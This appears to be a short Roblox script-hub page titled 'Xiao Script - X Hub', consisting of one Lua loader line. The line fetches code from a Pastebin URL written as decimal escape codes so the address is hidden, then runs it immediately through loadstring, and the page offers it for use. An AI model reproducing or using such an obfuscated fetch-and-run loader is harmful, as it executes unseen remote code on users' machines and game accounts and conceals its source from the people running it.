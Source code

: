 # Xiao Script - X Hub
```lua
loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\112\97\115\116\101\98\105\110\46\99\111\109\47\114\97\119\47\104\56\110\67\48\102\76\98"))()
```
